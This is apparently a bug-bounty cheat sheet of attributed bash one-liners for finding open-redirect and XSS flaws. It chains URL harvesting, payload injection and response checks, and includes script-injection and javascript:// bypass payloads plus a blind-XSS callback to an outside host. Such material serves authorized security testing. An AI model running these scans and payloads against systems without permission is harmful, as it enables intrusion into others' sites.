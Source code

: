 ### Open-redirect

- @dwisiswant0

    ```bash
    export LHOST="http://localhost"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
    ```

- @N3T_hunt3r

    ```bash
    cat waybackurl.txt | gf url | tee url-redirect.txt && cat url-redirect.txt | parallel -j 10 curl --proxy http://127.0.0.1:8080 -sk > /dev/null
    ```

### XSS

- @cihanmehmet

    ```bash
    gospider -S targets_urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe | tee result.txt
    ```

- @fanimalikhack

    ```bash
    waybackurls testphp.vulnweb.com | gf xss | sed 's/=.*/=/' | sort -u | tee Possible_xss.txt && cat Possible_xss.txt | dalfox -b blindxss.xss.ht pipe > output.txt
    ```

- @oliverrickfors

    ```bash
    cat hosts | getJS | httpx --match-regex "addEventListener\((?:'|\")message(?:'|\")"
    ```

- XSS without gf  @HacktifyS

    ```bash
    waybackurls testphp.vulnweb.com| grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done
    ```

- bypass thing where newlines were not allowed 

    ```js
    javascript://%E2%80%A9alert()
    ```

    ```
    javascript://%0aalert(1)
    ```
